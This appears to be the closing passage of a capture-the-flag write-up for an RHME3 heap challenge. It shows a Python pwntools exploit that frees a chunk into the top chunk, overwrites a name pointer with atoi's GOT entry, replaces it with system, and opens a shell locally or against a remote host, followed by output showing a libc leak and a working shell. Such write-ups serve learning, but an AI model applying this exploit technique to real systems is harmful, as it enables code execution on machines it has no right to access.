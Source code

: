 ```python
	log.info("Overwriting atoi with system")

	# Consolidate with top chunk
	free(3) 

	# Overwrite 3rd player's (index 2) name pointer with atoi
	# in order to edit it with system's address
	alloc('Z'*8 * 2 + p64(atoi_got))

	edit(p64(system))

	p.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        p = remote(sys.argv[1], int(sys.argv[2]))
        pwn()
    else:
        p = process('./main.elf')
        pause()
        pwn()
```

```
 >> python rhme3.py
[*] For remote: rhme3.py HOST PORT
[+] Starting local process './main.elf': pid 29567
[*] Paused (press any to continue)
[*] Leak:   0x7ffff7dd37b8
[*] Libc:   0x7ffff7a12000
[*] system: 0x7ffff7a58590
[*] Overwriting atoi with system
[*] Switching to interactive mode
$ whoami
vagrant

```


~ Peace!
